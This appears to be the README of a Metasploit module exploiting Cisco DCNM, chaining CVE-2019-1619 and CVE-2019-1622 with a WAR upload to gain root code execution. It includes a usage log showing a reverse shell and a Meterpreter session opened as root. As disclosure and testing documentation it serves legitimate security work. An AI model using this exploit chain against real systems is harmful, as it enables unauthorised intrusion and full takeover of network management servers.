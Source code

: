 ## Intro

Cisco Data Center Network Manager exposes a file upload servlet (FileUploadServlet) at /fm/fileUpload.
An authenticated user can abuse this servlet to upload a WAR to the Apache Tomcat webapps
directory and achieve remote code execution as root.

This module exploits two other vulnerabilities, CVE-2019-1619 for authentication bypass on
versions 10.4(2) and below, and CVE-2019-1622 (information disclosure) to obtain the correct
directory for the WAR file upload.

The module was tested on the DCNM Linux virtual appliance 10.4(2), 11.0(1) and 11.1(1), and should
work on a few versions below 10.4(2). Only version 11.0(1) requires authentication to exploit
(see References to understand why).


## Author and discoverer

Pedro Ribeiro (pedrib@gmail.com) from Agile Information Security


## References

https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190626-dcnm-bypass
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190626-dcnm-codex
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190626-dcnm-codex
https://raw.githubusercontent.com/pedrib/PoC/master/exploits/metasploit/cisco_dcnm_upload_2019.rb
https://seclists.org/fulldisclosure/2019/Jul/7


## Usage

Setup RHOST, LHOST, LPORT, run it and sit back!

```
[*] Started reverse TCP handler on 10.75.1.1:4444
[+] 10.75.1.40:443 - Detected DCNM 11.1(1)
[*] 10.75.1.40:443 - No authentication required, ready to exploit!
[+] 10.75.1.40:443 - Obtain WAR path from logs: /usr/local/cisco/dcm/wildfly-10.1.0.Final/standalone/sandeployments
[*] 10.75.1.40:443 - Uploading payload...
[+] 10.75.1.40:443 - WAR uploaded, waiting a few seconds for deployment...
[*] 10.75.1.40:443 - Executing payload...
[*] Sending stage (53867 bytes) to 10.75.1.40
[*] Meterpreter session 1 opened (10.75.1.1:4444 -> 10.75.1.40:60592) at 2019-08-29 12:41:49 +0700

meterpreter > getuid
Server username: root
meterpreter > exit
[*] Shutting down Meterpreter...
[*] 10.75.1.40 - Meterpreter session 1 closed.  Reason: User exit
```
